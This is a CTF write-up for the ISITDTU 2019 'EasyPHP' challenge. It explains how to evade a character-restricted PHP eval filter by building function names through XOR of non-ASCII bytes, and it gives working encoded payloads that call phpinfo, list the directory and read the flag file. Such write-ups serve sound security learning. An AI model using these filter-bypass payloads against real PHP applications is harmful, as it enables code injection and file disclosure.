



# ISITDTU CTF 2019 - EasyPHP

```
EasyPHP - Web - 871 Points (20 Solves)
Don't try to run any Linux command, just use all the PHP functions you know to get the flag
http://165.22.57.95:8000/
```

## Source

```php
<?php
highlight_file(__FILE__);

$_ = @$_GET['_'];
if ( preg_match('/[\x00- 0-9\'"\`$&.,|[{_defgops\x7F]+/i', $_) )
    die('rosé will not do it');

if ( strlen(count_chars(strtolower($_), 0x3)) > 0xd )
    die('you are so close, omg');

eval($_);
?>
```

The goal of the challenge is to execute PHP code bypassing restrictions:
- We can only use a reduced set of characters.
- We can only use 13 different characters at the same time.

### Allowed Functions

Combining `get_defined_functions()` with the previous regular expression we show which PHP functions we can use.

- rtrim, trim, ltrim
- chr
- link, unlink
- tan, atan, atanh, tanh
- intval
- mail
- min, max

On the other hand, we have the following ascii characters available:
`!#%()*+-/:;<=>?@ABCHIJKLMNQRTUVWXYZ\]^abchijklmnqrtuvwxyz}~`


### Testing environment

Modifying the source code of the test, we set up a local environment in which to test commands with fewer limitations.

We prove that it is possible to execute functions from a string. It is not possible to use *echo*, *print* or *include*.
```
'echo'();
Call to undefined function echo()
```

### Getting string

One of the limitations is not being able to use any type of quotation mark to use a string. Given the available functions, the need to use the `chr` function seems obvious.

Using this payload we can get any character, however, not being able to use the concatenation operator `.`, we can only generate one character and we can not use functions.

```php
chr((a==a)+(a==a)+...) -> 'A'
```

### Getting valid string

When we use a text without quotes, PHP tries to interpret it as a constant, and if it doesn't, it converts it to string.

`undefined constant aaa - assumed 'aaa'`


With the help of [@phiber](https://twitter.com/phib_) we manage to use the XOR `^` operator to evade the filter and use characters that are not allowed.

With the following string we can execute `phpinfo`.
```
(qiqhnin^iiiiibi^hhhhimh)();
```
We can see how it's running PHP 7.3.6. Besides getting the list of disabled functions, which are all those that could allow execution of commands, including `mail` and `imap_open`. Another configuration to take into account is the `open_basedir` variable, which is configured in such a way that it is not allowed to escape from the current directory.




### Directory Listing

Once we have verified that we can execute PHP code, we try to use file system functions in order to enumerate files.

Both `glob('*')` and `scandir('.')` return an array, which forces us to use a function that shows us an array on screen as `print_r` or `var_dump`.

Since the functions are very similar, we choose the combination that uses the least number of different characters.

```
10 - var_dump()
 8 - print_r()
 8 - glob('*')
11 - scandir('.')

16 - var_dump(scandir('.'))
16 - var_dump(glob('*'))

14 - print_r(scandir('.'))
14 - print_r(glob('*'))
```

We converted it to XOR format, to simplify the process, [@phiber](https://twitter.com/phib_) recommended me to use `%FF` as a base character, since PHP also interprets it as a string.

```
print_r ^ 0xff -> 0x8f8d96918ba08d -> ((%ff%ff%ff%ff%ff%ff%ff)^(%8f%8d%96%91%8b%a0%8d))
scandir ^ 0xff -> 0x8c9c9e919b968d -> ((%ff%ff%ff%ff%ff%ff%ff)^(%8c%9c%9e%91%9b%96%8d))
      . ^ 0xff -> 0xd1             -> ((%ff)^(%d1))
```

We assemble the complete function and close with `;`. A total of 16 different characters are used.

```
((%ff%ff%ff%ff%ff%ff%ff)^(%8f%8d%96%91%8b%a0%8d))(((%ff%ff%ff%ff%ff%ff%ff)^(%8c%9c%9e%91%9b%96%8d))(((%ff)^(%d1))));
```

### Simplify characters

With a simple script we look for which characters can be generated as XOR combination of others, so that we can save a few characters.

```
._acdinprst

t = s^c^d
n = i^c^d
r = a^c^p

print_r -> ((%ff%ff%ff%ff%ff%ff%ff)^(%8f%9e%96%96%8c%a0%9e)^(%ff%9c%ff%9c%9c%ff%9c)^(%ff%8f%ff%9b%9b%ff%8f))
scandir -> ((%ff%ff%ff%ff%ff%ff%ff)^(%8c%9c%9e%96%9b%96%9e)^(%ff%ff%ff%9c%ff%ff%9c)^(%ff%ff%ff%9b%ff%ff%8f))
```

By saving 3 characters, we get a valid payload with 13 different characters.



In this way we know the name of the file, but the web server denies the request of `txt` files.

We do the same process to generate a payload with `readfile(end(scandir(.)))` and read the flag.


